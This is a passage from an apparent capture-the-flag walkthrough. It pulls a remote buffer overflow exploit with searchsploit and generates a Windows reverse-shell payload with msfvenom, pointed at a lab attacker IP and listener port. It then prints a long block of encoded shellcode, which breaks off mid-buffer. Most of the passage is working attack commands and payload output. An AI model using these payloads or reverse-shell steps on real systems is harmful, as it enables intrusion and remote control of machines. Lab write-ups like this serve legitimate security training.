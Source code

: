 It seems like there is a Remote Buffer Overflow. Lets get the version without Metasploit:

```shell
searchsploit -m 36025
```

We can take a look at the code of the exploit to see how it works:

```shell
cat 36025.py
```

It looks like a Buffer Overflow.

# Foothold
### Creating custom Buffer Overflow with msfvenom and replacing the one in the exploit to get access as the user alfred

We can use msfvenom to create our own Buffer Overflow Payload using the following command with our Kali IP and nc listener port:

```shell
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.206 LPORT=8443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Now we got our Buffer Overflow:

```shell
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x49\x6c\x6a\x48\x34\x42\x69\x70"
buf += b"\x6b\x50\x6d\x30\x33\x30\x55\x39\x37\x75\x6c\x71"
buf += b"\x67\x50\x70\x64\x72\x6b\x4e\x70\x4e\x50\x44\x4b"
buf += b"\x52\x32\x6c\x4c\x62\x6b\x61\x42\x6a\x74\x62\x6b"
buf += b"\x51\x62\x6c\x68\x6c\x4f\x56\x57\x6e\x6a\x6b\x76"
buf += b"\x4e\x51\x79\x6f\x66\x4c\x4d\x6c\x50\x61\x53\x4c"
buf += b"\x59\x72\x4c\x6c\x6d\x50\x49\x31\x76\x6f\x6a\x6d"
buf += b"\x6d\x31\x65\x77\x69\x52\x38\x72\x62\x32\x71\x47"
buf += b"\x42\x6b\x51\x42\x6c\x50\x54\x4b\x4e\x6a\x6d\x6c"
buf += b"\x32\x6b\x6e\x6c\x6e\x31\x50\x78\x6a\x43\x31\x38"
buf += b"\x4a\x61\x4a\x31\x6e\x71\x62\x6b\x70\x59\x4d\x50"
buf += b"\x69\x71\x39\x43\x54\x4b\x61\x39\x6c\x58\x68\x63"
buf += b"\x6e\x5a\x4f\x59\x74\x4b\x6e\x54\x72\x6b\x4b\x51"
buf += b"\x79\x46\x6e\x51\x49\x6f\x66\x4c\x67\x51\x58\x4f"
buf += b"\x6a\x6d\x39\x71\x56\x67\x4c\x78\x77\x70\x32\x55"
buf += b"\x59\x66\x4d\x33\x71\x6d\x68\x78\x4f\x4b\x53\x4d"
buf += b"\x4e\x44\x74\x35\x48\x64\x61\x48\x34\x4b\x4e\x78"
buf += b"\x4b\x74\x5a\x61\x4a\x33\x6f\x76\x44\x4b\x4c\x4c"
buf += b"\x50\x4b\x52\x6b\x52\x38\x4b\x6c\x6a\x61\x5a\x33"
buf += b"\x54\x4b\x6a\x64\x42\x6b\x49\x71\x38\x50\x43\x59"
buf += b"\x61\x34\x6d\x54\x6e\x44\x31\x4b\x4f\x6b\x30\x61"
buf += b"\x6e\x79\x61\x4a\x30\x51\x79\x6f\x67\x70\x71\x4f"
```